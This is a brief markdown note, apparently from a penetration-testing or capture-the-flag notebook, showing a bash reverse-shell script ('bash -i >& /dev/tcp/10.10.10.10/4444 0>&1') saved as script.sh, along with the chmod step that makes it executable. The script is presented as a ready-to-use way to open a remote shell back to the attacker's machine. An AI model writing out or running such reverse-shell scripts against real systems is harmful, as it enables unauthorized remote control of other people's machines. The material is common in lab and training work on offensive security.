 ----
##### Bash Script to connect to our machine

> Set the [[IP]] address and [[Port]].
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```
>`script.sh`

> Make sure the file is executable.
```shell
chmod +x script.sh
```

---
